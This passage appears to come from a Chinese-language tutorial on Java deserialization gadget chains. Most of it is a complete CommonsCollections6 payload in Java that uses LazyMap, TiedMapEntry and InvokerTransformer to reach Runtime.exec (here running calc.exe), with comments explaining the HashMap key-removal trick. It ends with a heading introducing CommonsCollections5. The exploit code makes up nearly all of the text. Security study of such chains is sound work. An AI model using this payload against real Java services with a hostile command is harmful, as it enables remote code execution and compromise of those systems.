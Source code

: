 payload 如下

```java
package com.example.CommonsCollections6;

import com.example.Reflection;
import com.example.Serialization;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.util.HashMap;
import java.util.Map;

public class CommonsCollections6 {
    public static void main(String[] args) throws Exception{
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getDeclaredMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"}),
                new ConstantTransformer(1)
        };

        Transformer transformerChain = new ChainedTransformer(new Transformer[]{new ConstantTransformer(1)});

        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap, transformerChain);

        TiedMapEntry tme = new TiedMapEntry(outerMap, "keykey"); // 传入 outerMap 和一个任意的 key

        Map expMap = new HashMap();
        expMap.put(tme, "valuevalue");
        innerMap.remove("keykey"); // 因为 HashMap put 时也会调用 key.hashCode(), 所以需要将原来的 keykey 删除 (keykey 通过 LazyMap 懒加载进入 innerMap)

        Reflection.setFieldValue(transformerChain, "iTransformers", transformers);
        Serialization.test(expMap);
    }
}
```

## CommonsCollections5

cc5 将 cc6 的入口点 HashMap 替换成了 BadAttributeValueExpException
